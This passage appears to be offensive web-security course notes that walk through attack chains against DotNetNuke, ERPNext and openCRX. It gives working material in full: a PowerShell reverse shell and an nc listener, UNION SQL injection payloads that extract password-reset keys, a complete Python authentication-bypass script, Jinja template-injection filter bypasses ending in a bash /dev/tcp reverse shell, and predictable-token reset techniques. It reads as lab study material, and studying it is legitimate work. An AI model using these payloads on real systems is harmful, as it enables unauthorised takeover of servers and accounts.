sudo cp /usr/share/webshells/aspx/[webshell-name].aspx /var/www/html/
sudo chmod 644 /var/www/html/[webshell-name].aspx
sudo systemctl start apache2# Send the payload - request a nonexistent page to trigger LoadProfile via 404 handler
curl -b "DNNPersonalization=[payload-xml]" http://[target-ip]/[application-path]/nonexistent.aspx
# Verify: attacker web server log should show:
# [target-ip] - - "GET /[webshell-name].aspx HTTP/1.1" 200 1662After the request, the ASPX webshell is downloaded to [web-root]/[webshell-name].aspx and can be accessed directly in a browser at http://[target-ip]/[application-path]/[webshell-name].aspx.
6.4.3 Reverse Shell
Use the uploaded webshell to execute a PowerShell reverse shell. Encode the payload to base64 using UTF-16LE (PowerShell's expected encoding) to avoid quoting and character issues.
# PowerShell reverse shell one-liner (save to powershellcmd.txt)
$client = New-Object System.Net.Sockets.TCPClient('[attacker-ip]',[listener-port]);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
$sendback = (iex $data 2>&1 | Out-String);
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};# Encode to base64 for -EncodedCommand
cat powershellcmd.txt | iconv -f ASCII -t UTF-16LE | base64 | tr -d "\n"
# Execute from the ASPX webshell command box:
powershell.exe -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0...# Catch the reverse shell on the attacker machine
nc -lvp [listener-port]
# connect to [attacker-ip] from WIN-xxxxx [target-ip] 54654
# whoami
# iis apppool\defaultapppool6.4.4 ysoserial.net
ysoserial.net is an automated .NET deserialization payload generator created by Alvaro Muñoz. It supports multiple gadgets beyond ObjectDataProvider and multiple formatters including XmlSerializer, BinaryFormatter, and others. It is based on the original Java ysoserial tool by Chris Frohoff.
| Tool | Target | Gadgets |
|---|---|---|
ysoserial.net | .NET applications | ObjectDataProvider, TypeConfuseDelegate, PSObject, WindowsIdentity, etc. |
ysoserial (Java) | Java applications | CommonsCollections, Spring, Groovy, etc. |
Methodology
-
var wrapper = new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>(); wrapper.ProjectedProperty0 = new ObjectDataProvider(); wrapper.ProjectedProperty0.ObjectInstance = new FileSystemUtils(); wrapper.ProjectedProperty0.MethodName = "PullFile"; wrapper.ProjectedProperty0.MethodParameters.Add("http://[attacker-ip]/shell.aspx"); wrapper.ProjectedProperty0.MethodParameters.Add("[web-root]/[webshell-name].aspx"); -
sudo cp /usr/share/webshells/aspx/[webshell-name].aspx /var/www/html/ sudo systemctl start apache2 -
curl -b "DNNPersonalization=[payload-xml]" http://[target-ip]/[application-path]/nonexistent.aspx -
# Encode PowerShell reverse shell iconv -f ASCII -t UTF-16LE payload.txt | base64 | tr -d "\n" # Execute: powershell.exe -EncodedCommand [encoded-payload] # Catch shell: nc -lvp [listener-port]
7. ERPNext Auth Bypass and SSTI
7.1 Overview
ERPNext is an open-source Enterprise Resource Planning application built on the Frappe web framework. Frappe is a Python-based framework that follows a metadata-driven design pattern using DocTypes as its core building blocks, each encompassing the Model (database table), View (form UI), and Controller (.py logic file).
Frappe applies MVC at the DocType level - Controller handles routes, Model maps data to objects, View renders output - but deviates at lower levels. Vulnerabilities appear where developers bypass these patterns.
Frappe's metadata-driven architecture generates CRUD components from DocType definitions stored as JSON. The abstraction supports diverse industries, but the complexity introduces security risk where developers directly manipulate the model (SQL) or view (templates) outside the intended pattern.
| Component | Frappe Implementation | Security Relevance |
|---|---|---|
| Model | DocType JSON + database table | Direct SQL outside ORM = injection risk |
| View | Jinja2 templates + DocType forms | User input in templates = SSTI risk |
| Controller | @frappe.whitelist() decorated .py functions | Guest-accessible endpoints = attack surface |
| Routing | API: /api/method/dotted.path.to.function | Maps directly to filesystem paths |
Methodology
-
grep -rn "allow_guest=True" apps/ --include="*.py"
7.2 Environment Setup
7.2.1 SMTP Server Configuration
Password reset exploitation requires the application to send emails. Configure Frappe to route emails through the attacker's SMTP server by editing the site configuration file on the ERPNext server.
{
"db_name": "_1bd3e0294da19198",
"db_password": "32ldabYvxQanK4jj",
"db_type": "mariadb",
"mail_server": "[attacker-ip]",
"use_ssl": 0,
"mail_port": 25,
"auto_email_id": "[admin-email]"
}# Start SMTP debug server on Kali to receive password reset emails
sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 &7.2.2 Remote Debugging with ptvsd
Remote debugging allows setting breakpoints, inspecting variables, and stepping through code execution. Install ptvsd on the ERPNext server and modify app.py to pause startup until a debugger attaches on port 5678.
# Install ptvsd using the bench-provided pip
/home/frappe/frappe-bench/env/bin/pip install ptvsd# Add to top of apps/frappe/frappe/app.py (below imports)
import ptvsd
ptvsd.enable_attach(redirect_output=True)
print("Now ready for the IDE to connect to the debugger")
ptvsd.wait_for_attach()# Comment out the web line in Procfile to start manually
# Procfile: #web: bench serve --port 8000
# Start services
cd /home/frappe/frappe-bench && bench start
# In separate terminal, start web server with debugging
cd /home/frappe/frappe-bench/sites
../env/bin/python ../apps/frappe/frappe/utils/bench_helper.py frappe serve --port 8000 --noreload --nothreading# Transfer source code to Kali for local VS Code debugging
rsync -azP frappe@[target-ip]:/home/frappe/frappe-bench ./{
"version": "0.2.0",
"configurations": [
{
"name": "Python: Remote Attach",
"type": "python",
"request": "attach",
"port": 5678,
"host": "[target-ip]",
"pathMappings": [
{
"localRoot": "${workspaceFolder}",
"remoteRoot": "/home/frappe/frappe-bench/"
}
]
}
]
}7.2.3 MariaDB Query Logging
Enable general query logging in MariaDB to observe every SQL statement executed by the application in real time. The log reveals injection points and confirms whether payloads execute as intended.
# Edit /etc/mysql/my.cnf - uncomment under [mysqld]:
# general_log_file = /var/log/mysql/mysql.log
# general_log = 1
sudo nano /etc/mysql/my.cnf
sudo systemctl restart mysql
# Follow the query log
sudo tail -f /var/log/mysql/mysql.logMethodology
-
nano ~/frappe-bench/sites/site1.local/site_config.json # Set "mail_server": "[attacker-ip]", "mail_port": 25 -
sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & -
/home/frappe/frappe-bench/env/bin/pip install ptvsd -
import ptvsd ptvsd.enable_attach(redirect_output=True) print("Now ready for the IDE to connect to the debugger") ptvsd.wait_for_attach() -
cd /home/frappe/frappe-bench/sites ../env/bin/python ../apps/frappe/frappe/utils/bench_helper.py frappe serve \ --port 8000 --noreload --nothreading -
rsync -azP frappe@[target-ip]:/home/frappe/frappe-bench ./ -
sudo nano /etc/mysql/my.cnf # Uncomment: general_log_file, general_log under [mysqld] sudo systemctl restart mysql sudo tail -f /var/log/mysql/mysql.log
7.3 Frappe Framework HTTP Routing
Frappe exposes Python functions as HTTP API endpoints using the @frappe.whitelist() decorator. The client calls functions via /api/method/[dotted.path.to.function], and Frappe maps the dotted path directly to the filesystem to locate and execute the function. Functions decorated with allow_guest=True are accessible without authentication.


7.3.1 The Whitelist Decorator
# apps/frappe/frappe/__init__.py - whitelist decorator
whitelisted = []
guest_methods = []
xss_safe_methods = []
def whitelist(allow_guest=False, xss_safe=False):
"""
Decorator for whitelisting a function and making it accessible via HTTP.
Standard request will be `/api/method/[path.to.method]`
:param allow_guest: Allow non logged-in user to access this method.
"""
def innerfn(fn):
global whitelisted, guest_methods, xss_safe_methods
whitelisted.append(fn)
if allow_guest:
guest_methods.append(fn)
if xss_safe:
xss_safe_methods.append(fn)
return fn
return innerfn7.3.2 Request Handler Flow
HTTP requests are processed by the handle() function in handler.py, which extracts the cmd parameter, resolves the method, verifies it is whitelisted, and executes it with all request arguments.
# apps/frappe/frappe/handler.py - handle function
def handle():
"""handle request"""
cmd = frappe.local.form_dict.cmd
data = None
if cmd != 'login':
data = execute_cmd(cmd)
if data is not None:
if isinstance(data, Response):
return data
frappe.response['message'] = data
return build_response("json")# apps/frappe/frappe/handler.py - execute_cmd function
def execute_cmd(cmd, from_async=False):
"""execute a request as python module"""
for hook in frappe.get_hooks("override_whitelisted_methods", {}).get(cmd, []):
cmd = hook
break
try:
method = get_attr(cmd)
except Exception as e:
if frappe.local.conf.developer_mode:
raise e
else:
frappe.respond_as_web_page(title='Invalid Method', html='Method not found',
indicator_color='red', http_status_code=404)
return
if from_async:
method = method.queue
is_whitelisted(method)
return frappe.call(method, **frappe.form_dict)7.3.3 Access Control and Routing
# apps/frappe/frappe/handler.py - is_whitelisted function
def is_whitelisted(method):
if frappe.session['user'] == 'Guest':
if (method not in frappe.guest_methods):
frappe.msgprint(_("Not permitted"))
raise frappe.PermissionError('Not Allowed, {0}'.format(method))
if method not in frappe.xss_safe_methods:
for key, value in frappe.form_dict.items():
if isinstance(value, string_types):
frappe.form_dict[key] = frappe.utils.sanitize_html(value)
else:
if not method in frappe.whitelisted:
frappe.msgprint(_("Not permitted"))
raise frappe.PermissionError('Not Allowed, {0}'.format(method))The routing maps the cmd value directly to the filesystem path. For example, the cmd frappe.website.doctype.website_settings.website_settings.is_chat_enabled resolves to the file apps/frappe/frappe/website/doctype/website_settings/website_settings.py and calls is_chat_enabled().
# Example guest-accessible function
@frappe.whitelist(allow_guest=True)
def is_chat_enabled():
return bool(frappe.db.get_single_value('Website Settings', 'chat_enable'))# Find all guest-whitelisted functions in the codebase
grep -rn "allow_guest=True" apps/frappe/frappe/ apps/erpnext/erpnext/ --include="*.py"Methodology
-
grep -rn "allow_guest=True" apps/frappe/frappe/ apps/erpnext/erpnext/ --include="*.py"
7.4 Authentication Bypass via SQL Injection
Searching for direct SQL queries within the 91 guest-whitelisted functions reveals the web_search function in apps/frappe/frappe/utils/global_search.py. This function constructs a SQL query where the text parameter is escaped via frappe.db.escape(), but the scope, limit, and start parameters are inserted directly via Python string formatting without any sanitization.
# apps/frappe/frappe/utils/global_search.py - web_search function
@frappe.whitelist(allow_guest=True)
def web_search(text, scope=None, start=0, limit=20):
"""
Search for given text in __global_search where published = 1
:param text: phrase to be searched
:param scope: search only in this route, for e.g /docs
:param start: start results at, default 0
:param limit: number of results to return, default 20
:return: Array of result objects
"""
results = []
texts = text.split('&')
for text in texts:
common_query = ''' SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE {conditions}
LIMIT {limit} OFFSET {start}'''
scope_condition = '`route` like "{}%" AND '.format(scope) if scope else ''
published_condition = '`published` = 1 AND '
mariadb_conditions = postgres_conditions = ' '.join([published_condition, scope_condition])
text = '"{}"'.format(text)
mariadb_conditions += 'MATCH(`content`) AGAINST ({} IN BOOLEAN MODE)'.format(frappe.db.escape(text))
postgres_conditions += 'TO_TSVECTOR("content") @@ PLAINTO_TSQUERY({})'.format(frappe.db.escape(text))
result = frappe.db.multisql({
'mariadb': common_query.format(conditions=mariadb_conditions, limit=limit, start=start),
'postgres': common_query.format(conditions=postgres_conditions, limit=limit, start=start)
}, as_dict=True)| Parameter | Escaped? | Injection Vector |
|---|---|---|
text | Yes (frappe.db.escape()) | Not injectable |
scope | No (direct .format()) | UNION injection via double-quote termination |
limit | No (direct .format()) | Integer injection |
start | No (direct .format()) | Integer injection |
7.4.1 Exploiting the SQLi
The initial baseline query (without scope) produces a clean SELECT. Setting scope injects into the WHERE clause inside a double-quoted LIKE string, which can be terminated with a closing double quote to inject a UNION query. The comment character # comments out the remainder.
-- Baseline query (text=[search-term], no scope)
SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE `published` = 1 AND MATCH(`content`) AGAINST ('"[search-term]"' IN BOOLEAN MODE)
LIMIT 20 OFFSET 0-- Query with scope=[scope-prefix]
SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE `published` = 1 AND `route` like "[scope-prefix]%" AND MATCH(`content`) AGAINST ('"[search-term]"' IN BOOLEAN MODE)
LIMIT 20 OFFSET 0# Initial UNION injection - terminate double quote, inject UNION, comment out rest
# Payload for scope parameter:
# [scope-prefix]" UNION ALL SELECT 1,2,3,4,5#
# Burp request (POST to /api/method/frappe.utils.global_search.web_search):
cmd=frappe.utils.global_search.web_search&text=[search-term]&scope=[scope-prefix]" UNION ALL SELECT 1,2,3,4,5#-- Resulting injected query
SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE `published` = 1 AND `route` like "[scope-prefix]" UNION ALL SELECT 1,2,3,4,5#%" AND MATCH(`content`) AGAINST ('"[search-term]"' IN BOOLEAN MODE)
LIMIT 20 OFFSET 0// Response confirms injection - numbers map to column positions
{"message":[{"route":"5","content":"3","relevance":0,"name":"2","title":"4","doctype":"1"}]}To confirm data extraction, submit the version payload and verify that the database version appears in the response route field.
| Purpose | Payload | Expected Indicator |
|---|---|---|
| Extract database version | [scope-prefix]" UNION ALL SELECT 1,2,3,4,@@version# |
"route":"10.2.24-MariaDB-10.2.24+maria~xenial-log" |
7.4.2 Resolving Collation Errors
Extracting string data from other tables triggers a "Illegal mix of collations for operation 'UNION'" error because the __global_search table uses a different collation than the target table. Extract the collation via information_schema and force it with COLLATE.
-- Extract collation of the __global_search.name column
-- scope payload: [scope-prefix]" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#
-- Response: "route":"utf8mb4_general_ci"-- Extract users from __Auth with forced collation
-- scope payload: [scope-prefix]" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
-- Response includes: "route":"Administrator" and "route":"[admin-email]"7.4.3 Obtaining Admin User Information
The Frappe __Auth table stores usernames (in the name column) with PBKDF2-hashed passwords. Rather than cracking hashes, we target the password reset mechanism. The reset key is stored in the tabUser table, which we locate by submitting a reset for a token email and grepping the MariaDB query log.
# Discover the password reset table by monitoring queries
sudo tail -f /var/log/mysql/mysql.log | grep token_searchForUserTable
# Result: select * from `tabUser` where `name` = 'token_searchForUserTable@mail.com'-- Enumerate tabUser columns to find the reset key column
-- scope payload: [scope-prefix]" UNION ALL SELECT 1,2,3,4,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = "tabUser"#
-- Response includes: "route":"reset_password_key"7.4.4 Resetting the Admin Password
Trigger a password reset for the admin user, then extract the reset_password_key via the SQL injection. The reset link format is /update-password?key=[reset_key]. Visiting this URL with the extracted key allows setting a new password.
-- Extract reset_password_key with name for the correct user
-- scope payload: [scope-prefix]" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
-- Response:
-- {"message":[
-- {"doctype":"Administrator","route":null, ...},
-- {"doctype":"Guest","route":null, ...},
-- {"doctype":"[admin-email]","route":"aAJTVmS14sCpKxrRT8N7ywbnYXRcVEN0"}
-- ]}# Full authentication bypass exploit
import requests
target = "http://[target-ip]:8000"
admin_email = "[admin-email]"
# Step 1: Trigger password reset for admin user
print("[*] Triggering password reset...")
requests.get(f"{target}/api/method/login", params={
"cmd": "frappe.core.doctype.user.user.reset_password",
"user": admin_email
})
# Step 2: Extract reset key via UNION SQLi on web_search scope param
print("[*] Extracting reset key via SQLi...")
sqli_payload = '[scope-prefix]" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#'
r = requests.post(f"{target}/api/method/frappe.utils.global_search.web_search", data={
"cmd": "frappe.utils.global_search.web_search",
"text": "[search-term]",
"scope": sqli_payload
})
# Parse response to find admin reset key
data = r.json()
reset_key = None
for entry in data.get("message", []):
if entry.get("doctype") == admin_email and entry.get("route"):
reset_key = entry["route"]
break
if reset_key:
print(f"[+] Reset key found: {reset_key}")
# Step 3: Visit reset link and set new password
reset_url = f"{target}/update-password?key={reset_key}"
print(f"[+] Password reset URL: {reset_url}")
# Navigate to this URL in browser to set new password
else:
print("[-] Reset key not found")# Source code of the reset_password function (apps/frappe/frappe/core/doctype/user/user.py)
def reset_password(self, send_email=False, password_expired=False):
from frappe.utils import random_string, get_url
key = random_string(32)
self.db_set("reset_password_key", key)
url = "/update-password?key=" + key
if password_expired:
url = "/update-password?key=" + key + '&password_expired=true'
link = get_url(url)
if send_email:
self.password_reset_mail(link)
return linkMethodology
-
curl -X POST http://[target-ip]:[port]/api/method/frappe.utils.global_search.web_search \ -d 'text=[search-term]&scope=[scope-prefix]" UNION ALL SELECT 1,2,3,4,5#' -
-- scope payload: -- [scope-prefix]" UNION ALL SELECT 1,2,3,4,@@version# -
-- Extract collation: -- [scope-prefix]" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"# -
-- [scope-prefix]" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth# -
sudo tail -f /var/log/mysql/mysql.log | grep [search-token] -
-- [scope-prefix]" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
7.5 Server-Side Template Injection
After gaining administrator access via the SQL injection, remote code execution is possible through Jinja2 Server-Side Template Injection. Frappe uses Jinja extensively, and ERPNext exposes email template functionality that renders user-controlled content through Jinja.
7.5.1 Jinja2 Templating Basics
Jinja uses {{ }} delimiters for expressions (which produce a value) and {% %} for statements (which perform actions like variable assignment or loops). While Jinja has its own syntax, the underlying engine is Python, meaning template escapes can potentially access Python built-ins.
| Delimiter | Type | Example |
|---|---|---|
{{ }} | Expression (outputs value) | {{ 7*7 }} → 49 |
{% %} | Statement (action) | {% set x = 42 %} |
| | Filter (pipe to function) | {{ "hello"|length }} → 5 |
7.5.2 The Classic SSTI Payload
The classic Jinja2 SSTI payload uses Python's Method Resolution Order (__mro__) to traverse the class hierarchy from a string object up to the base object class, then lists all subclasses to find one that enables code execution (such as file in Python 2 or subprocess.Popen in Python 3).
# Classic SSTI payload (Python 2 - index [2] for object class)
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
# Python 3 - str inherits directly from object (index [1])
''.__class__.__mro__
# Python 2: (<type 'str'>, <type 'basestring'>, <type 'object'>)
# Python 3: (<class 'str'>, <class 'object'>)# Demonstrating the MRO chain in Python 3
>>> ''.__class__
<class 'str'>
>>> ''.__class__.__mro__
(<class 'str'>, <class 'object'>)
>>> ''.__class__.__mro__[1]
<class 'object'>
>>> ''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, ..., <class 'subprocess.Popen'>, ...]7.5.3 SSTI Discovery
ERPNext's email template feature renders user content through Jinja. The get_email_template function processes templates via frappe.render_template(). Creating an email template with {{ 7*7 }} and rendering it returns 49, confirming SSTI.
# apps/frappe/frappe/email/doctype/email_template/email_template.py
@frappe.whitelist()
def get_email_template(template_name, doc):
'''Returns the processed HTML of a email template with the given doc'''
if isinstance(doc, string_types):
doc = json.loads(doc)
email_template = frappe.get_doc("Email Template", template_name)
return {"subject" : frappe.render_template(email_template.subject, doc),
"message" : frappe.render_template(email_template.response, doc)}However, render_template() contains a security filter that blocks templates containing .__ (dot followed by double underscore), which prevents the standard __class__.__mro__ payload.
# apps/frappe/frappe/utils/jinja.py - render_template with SSTI filter
def render_template(template, context, is_path=None, safe_render=True):
from frappe import get_traceback, throw
from jinja2 import TemplateError
if not template:
return ""
if (is_path
or template.startswith("templates/")
or (template.endswith('.html') and '\n' not in template)):
return get_jenv().get_template(template).render(context)
else:
if safe_render and ".__" in template:
throw("Illegal template")
try:
return get_jenv().from_string(template).render(context)
except TemplateError:
throw(title="Jinja Template Error",
msg="<pre>{template}</pre><pre>{tb}</pre>".format(
template=template, tb=get_traceback()))7.5.4 Filter Evasion with Jinja attr() Filter
The filter blocks .__ in the template string. Jinja's attr() filter provides an alternative way to access object attributes without using dot notation. By storing attribute names like __class__ as string variables and using the pipe-attr syntax, the .__ substring never appears in the template.
# Jinja attr() filter example
{% set foo = "foo" %}
{% set bar = "bar" %}
{% set foo.bar = "Just another variable" %}
{{ foo|attr(bar) }}
# Output: "Just another variable"# SSTI filter bypass - store dunder attributes as variables
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{{ string|attr(class) }}
# Output: <class 'str'># Access __mro__ and extract the object class (index 1)
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{{ mro_r[1] }}
# Output: <class 'object'># List all subclasses of object
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r }}
# Output: [<class 'type'>, <class 'weakref'>, ..., <class 'subprocess.Popen'>, ...]7.5.5 SSTI to RCE
Review the subclasses list to find subprocess.Popen. The index varies by environment (e.g., index 420). Access Popen and pass a command list to execute OS commands on the ERPNext server. Output is not returned inline but the Popen object confirms execution.
# Identify subprocess.Popen index in subclasses list
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420] }}
# Output: <class 'subprocess.Popen'># Execute commands via subprocess.Popen
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420](["/usr/bin/touch","/tmp/pwned"]) }}# Verify RCE on the ERPNext server
frappe@ubuntu:~$ ls -lh /tmp/pwned
-rw-rw-r-- 1 frappe frappe 0 Jan 11 10:31 pwned# Reverse shell payload via SSTI
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420](["/bin/bash","-c","bash -i >& /dev/tcp/[attacker-ip]/443 0>&1"]) }}Methodology
-
sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & -
grep -rn "allow_guest=True" apps/ --include="*.py" -
scope=[scope-prefix]" UNION ALL SELECT 1,2,3,4,@@version# -
scope=[scope-prefix]" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser# -
{{ subclasses_r[420](["/bin/bash","-c","bash -i >& /dev/tcp/[attacker-ip]/443 0>&1"]) }}
8. openCRX Auth Bypass and RCE
8.1 Overview
openCRX is an open-source customer relationship management (CRM) web application written in Java, running on Apache TomEE. We use white-box techniques to exploit deterministic password reset tokens to gain authenticated access, then chain an XXE vulnerability with HSQLDB Java Language Routines to achieve remote code execution.
8.1.1 Java Application Packaging
Java web applications use several archive formats, all ZIP files with different extensions. Understanding this packaging is essential for locating source code to analyze.
| Format | Full Name | Purpose |
|---|---|---|
| JAR | Java Archive | Stand-alone applications or libraries |
| WAR | Web Application Archive | Multiple JARs and static content (HTML) in a single archive |
| EAR | Enterprise Application Archive | Multiple JARs and WARs to consolidate multiple web applications |
8.1.2 Application Structure
openCRX is packaged as an EAR file containing several WAR files. The common JAR libraries live in /APP-INF/lib. The main web application is opencrx-core-CRX.war, with core logic in opencrx-kernel.jar.
# SSH to the server and examine the structure
ssh [username]@[target-ip]
cd crx/apache-tomee-plus-7.0.5/
tree -L 3
# Copy the EAR file to Kali for analysis
scp [username]@[target-ip]:~/[app-dir]/apache-tomee-plus-7.0.5/apps/opencrx-core-CRX.ear .
unzip -q opencrx-core-CRX.ear -d opencrxThe META-INF/application.xml file within the EAR specifies library locations. The <library-directory> element points to APP-INF/lib where opencrx-kernel.jar resides.
<?xml version="1.0" encoding="UTF-8"?>
<application id="opencrx-core-CRX-App" xmlns="http://java.sun.com/xml/ns/javaee">
<display-name>openCRX EAR</display-name>
<module id="opencrx-core-CRX">
<web>
<web-uri>opencrx-core-CRX.war</web-uri>
<context-root>opencrx-core-CRX</context-root>
</web>
</module>
<library-directory>APP-INF/lib</library-directory>
</application>Methodology
-
ssh [username]@[target-ip] cd crx/apache-tomee-plus-7.0.5/ tree -L 3 -
scp [username]@[target-ip]:~/[app-dir]/apache-tomee-plus-7.0.5/apps/opencrx-core-CRX.ear . unzip -q opencrx-core-CRX.ear -d opencrx -
cat opencrx/META-INF/application.xml | grep library-directory # APP-INF/lib contains opencrx-kernel.jar unzip -q opencrx/APP-INF/lib/opencrx-kernel.jar -d kernel-src
8.2 Password Reset Token Prediction
The password reset function generates tokens using java.util.Random seeded with System.currentTimeMillis(). Since this PRNG is deterministic given the same seed, we can predict the token if we know the approximate time of the reset request.
8.2.1 Password Reset Code Flow
RequestPasswordReset.jsp receives the username, resolves a UserHome object, and calls requestPasswordReset(). The method traces through an interface chain: UserHome (interface) → UserHomeImpl (implementation) → UserHomes.requestPasswordReset() (backend logic).
// RequestPasswordReset.jsp - core logic (lines 153-175)
if(principalName != null && providerName != null && segmentName != null) {
javax.jdo.PersistenceManagerFactory pmf =
org.opencrx.kernel.utils.Utils.getPersistenceManagerFactory();
javax.jdo.PersistenceManager pm = pmf.getPersistenceManager(
SecurityKeys.ADMIN_PRINCIPAL + SecurityKeys.ID_SEPARATOR + segmentName, null);
try {
org.opencrx.kernel.home1.jmi1.UserHome userHome =
(org.opencrx.kernel.home1.jmi1.UserHome)pm.getObjectById(
new Path("xri://@openmdx*org.opencrx.kernel.home1").getDescendant(
"provider", providerName, "segment", segmentName,
"userHome", principalName));
pm.currentTransaction().begin();
userHome.requestPasswordReset();
pm.currentTransaction().commit();
success = true;
} catch(Exception e) {
try { pm.currentTransaction().rollback(); } catch(Exception ignore) {}
success = false;
}
}// UserHomeImpl.class - delegates to backend
public Void requestPasswordReset() {
try {
UserHomes.getInstance().requestPasswordReset(
(UserHome) sameObject());
return newVoid();
} catch (ServiceException e) {
throw new JmiServiceException(e);
}
}// UserHomes.java - generates token and builds reset URL
public void requestPasswordReset(UserHome userHome) throws ServiceException {
String webAccessUrl = userHome.getWebAccessUrl();
if (webAccessUrl != null) {
String resetToken = Utils.getRandomBase62(40);
String resetConfirmUrl = webAccessUrl + (webAccessUrl.endsWith("/") ? "" : "/")
+ "PasswordResetConfirm.jsp?t=" + resetToken
+ "&p=" + providerName + "&s=" + segmentName + "&id=" + principalName;
changePassword((Password)loginPrincipal.getCredential(), null,
"{RESET}" + resetToken);
}
}8.2.2 Vulnerable Token Generation
The getRandomBase62 method in org.opencrx.kernel.utils.Utils uses java.util.Random seeded with the current time in milliseconds. This is not cryptographically secure - two Random objects with the same seed produce identical output sequences.
// org.opencrx.kernel.utils.Utils.java - vulnerable PRNG
public static String getRandomBase62(int length) {
String alphabet = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
Random random = new Random(System.currentTimeMillis());
String s = "";
for (int i = 0; i < length; i++) {
s = s + "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
.charAt(random.nextInt(62));
}
return s;
}8.2.3 java.util.Random vs SecureRandom
The Java standard library provides two primary random number generators. java.util.Random is a linear congruential generator (LCG) - identical seeds produce identical sequences. java.security.SecureRandom is cryptographically strong and produces non-deterministic output even with the same seed.
| Class | Type | Deterministic? | Use Case |
|---|---|---|---|
java.util.Random | LCG (pseudorandom) | Yes - same seed = same sequence | Non-security purposes only |
java.security.SecureRandom | CSPRNG | No - non-deterministic output | Security-sensitive applications |
// jshell demo: java.util.Random is deterministic
jshell> import java.util.Random;
jshell> Random r1 = new Random(42);
jshell> Random r2 = new Random(42);
jshell> for(int i=0; i<5; i++) {
...> int x = r1.nextInt(); int y = r2.nextInt();
...> if(x == y) System.out.println("Match: " + x);
...> }
Match: -1170105035
Match: 234785527
Match: -1360544799
Match: 205897768
Match: 1325939940// jshell demo: SecureRandom is non-deterministic
jshell> import java.security.SecureRandom;
jshell> byte[] s = new byte[] { (byte) 0x2a };
jshell> SecureRandom r1 = new SecureRandom(s);
jshell> SecureRandom r2 = new SecureRandom(s);
jshell> if(r1.nextInt() == r2.nextInt()) {
...> System.out.println("Match!");
...> } else {
...> System.out.println("No match.");
...> }
No match.8.2.4 Account Determination
A default openCRX installation has three accounts: guest/guest, admin-Standard/admin-Standard, and admin-Root/admin-Root. The password reset page discloses valid accounts through different response messages for valid vs invalid usernames.
| Username | Default Password | Reset Response |
|---|---|---|
| guest | guest | "Password reset request was successful" |
| admin-Standard | admin-Standard | "Password reset request was successful" |
| admin-Root | admin-Root | "Password reset request was successful" |
| invaliduser | - | Error message (account not found) |
8.2.5 Timing the Reset Request
To predict the seed, we capture timestamps immediately before and after issuing the password reset request. The date +%s%3N format matches Java's System.currentTimeMillis() output. The server's Date response header provides a sanity check for clock alignment.
# Capture timestamps around the reset request
date +%s%3N && \
curl -s -i -X 'POST' --data-binary 'id=[username]' \
'http://[target-ip]:[port]/opencrx-core-CRX/RequestPasswordReset.jsp' && \
date +%s%3N
# Example output:
# 1582038122371 <-- start timestamp
# HTTP/1.1 200
# Date: Tue, 18 Feb 2020 15:02:02 GMT
# ...
# 1582038122769 <-- end timestamp
# Range: 398 possible seed valuesThe seed is determined early in the reset process, so it is likely closer to the start timestamp. Verify that local timestamps roughly align with the server's Date header (convert to epoch using date -d or an online converter).
8.2.6 Token Generation
We create a Java class that mirrors the vulnerable getRandomBase62 method but iterates over the range of possible seed values. Each iteration produces a candidate token.
